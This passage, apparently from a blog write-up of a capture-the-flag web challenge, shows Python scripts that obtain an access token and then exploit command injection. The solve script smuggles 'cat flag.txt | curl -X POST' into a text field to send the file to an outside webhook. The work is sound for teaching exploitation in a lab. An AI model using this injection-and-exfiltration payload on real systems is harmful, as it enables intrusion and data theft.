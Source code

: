 ```python

# If the response includes a 'Set-Cookie' header, print it to check the access_token
if 'Set-Cookie' in response.headers:
    print(f"Set-Cookie Header: {response.headers['Set-Cookie']}")
```

Running `python gen.py` should give us the token

![get-token](/blog/images/2024-09-02-11-03-04.png)

And it did! Let's now craft another script `solve.py` to retrieve the `flag.txt`

### `solve.py`

```python
import requests

# Replace these values with your actual values
access_token = 'ImFjY2Vzc19ncmFudGVkIg.ZtWNIQ.efPFQEBT8jNFoIlWVhjSeYC2Iuk'
feature_url = 'https://feature-unlocked-web.challs.csc.tf/feature'

# Text to be sent to the /feature endpoint for word count testing
text_body = 'This; cat flag.txt | curl -X POST -d @- https://webhook.site/ea19e1c2-91bb-469b-bfd4-8f3608541e56'

# Create the headers with the access token
headers = {
    'Cookie': f'access_token={access_token}'
}

# Create the payload with the text to be processed
data = {
    'text': text_body
}

# Make the POST request to the /feature endpoint
response = requests.post(feature_url, headers=headers, data=data)

# Print the response from the server
print(f"Status Code: {response.status_code}")
print("Response Content:")
print(response.text)
```

Running `python solve.py` should send a request to our webhook, and we should see the flag there.


![flag](/blog/images/2024-09-02-11-06-34.png)

There we go~ flag is: `CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}`

---

From this challenge, we learned the importance of:
